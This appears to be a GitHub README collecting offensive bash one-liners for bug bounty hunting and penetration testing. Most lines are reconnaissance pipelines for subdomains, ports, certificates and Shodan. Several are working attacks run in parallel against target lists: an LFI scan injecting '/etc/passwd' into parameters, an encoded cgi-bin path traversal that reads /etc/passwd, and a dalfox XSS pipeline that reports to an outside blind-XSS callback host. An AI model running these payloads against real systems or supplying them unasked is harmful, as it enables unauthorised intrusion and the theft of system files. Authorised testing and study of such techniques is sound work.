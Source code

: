 ## Pentesting One-Liners Toolkit  
A curated collection of powerful reconnaissance and vulnerability scanning one-liners for bug bounty hunters and penetration testers.  

---

##  Recon Pipeline  

```bash  
subfinder -d redacted.com -all -active | shuffledns -d redacted.com -r resolvers.txt -w n0kovo_subdomains_huge.txt | tee subs.txt | dnsx -silent -a -aaaa -cname -resp | anew resolved.txt & naabu -l resolved.txt -nmap -rate 2000 | anew ports.txt & httpx -l ports.txt -silent | anew alive.txt & katana -list alive.txt -kf all -jc | anew urls.txt & nuclei -l urls.txt -es info,unknown -ept ssl -ss template-spray | tee nuclei.txt  
Full-chain reconnaissance from subdomain discovery to vulnerability scanning.
```

## Juicy Subdomains

```bash  
subfinder -d target.com -silent | dnsx -silent | cut -d ' ' -f1 | grep -Ei 'api|dev|stg|test|admin|demo|stage|pre|vpn'  
```
- Find high-value subdomains using keyword patterns.

## BufferOver.run Lookup

```bash  
curl -s https://dns.bufferover.run/dns?q=.target.com | jq -r .FDNS_A[] | cut -d',' -f2 | sort -u  
```
- Query BufferOver's DNS database for historical records.

## CertSpotter Certificates

```bash  
curl -s "https://api.certspotter.com/v1/issuances?domain=target.com&include_subdomains=true&expand=dns_names" | jq .[].dns_names | grep -Po "(([\w.-]*)\.([\w]*)\.([A-z]))\w+" | sort -u  
```
- Extract subdomains from SSL certificates.

## Subdomain Takeover Check

```bash  
cat subs.txt | xargs -P50 -I% bash -c 'dig % | grep CNAME' | awk '{print $1}' | sed 's/\.$//g' | httpx -silent -status-code -cdn -csp-probe -tls-probe  
```
- Detect dangling DNS records for potential takeover.

## LFI Scanning

```bash  
cat targets.txt | gau | gf lfi | qsreplace "/etc/passwd" | xargs -I% -P25 sh -c 'curl -s "%" | grep -q "root:x" && echo "[+] VULN: %"'  
```
- Automated LFI payload testing with parallel requests.

## Path Traversal Bypass

```bash  
cat targets.txt | while read host; do curl --silent --path-as-is --insecure "$host/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd" | grep "root:*" && echo "$host VULNERABLE"; done  
```
- Test for LFI bypasses using directory traversal.


## XSS Hunting

```bash  
subfinder -dL domainlist.txt | dnsx | shuf | gau | anew | egrep -iv "\.(jpg|jpeg|gif|tif|tiff|png|ttf|woff|woff2|php|ico|pdf|svg|txt|js)$" | urless | dalfox pipe -b https://xss.hunter/?q=1  
```
 - Full-chain XSS discovery pipeline with active probing.

## Shodan CLI

```bash  
shodan search ssl.cert.subject.cn:"target.com" --fields ip_str | anew ips.txt  
```
 - Find IPs associated with target's SSL certificates.

## Tools Used
- Subfinder	Subdomain discovery	https://github.com/projectdiscovery/subfinder
- ShuffleDNS	Mass DNS resolver	https://github.com/projectdiscovery/shuffledns
- dnsx	DNS toolkit	https://github.com/projectdiscovery/dnsx
- Naabu	Port scanner	https://github.com/projectdiscovery/naabu
- HTTPX	HTTP probing	https://github.com/projectdiscovery/httpx
- Katana	Crawler	https://github.com/projectdiscovery/katana
- Nuclei	Vulnerability scanning	https://github.com/projectdiscovery/nuclei
- Gau	URL collector	https://github.com/lc/gau
- Dalfox	XSS scanner	https://github.com/hahwul/dalfox
- Shodan CLI	Internet intelligence	https://cli.shodan.io/

## Credit

- https://x.com/TheMsterDoctor1/status/1905471835128373665
- https://github.com/ifconfig-me/cool-bugbounty-oneliners?tab=readme-ov-file
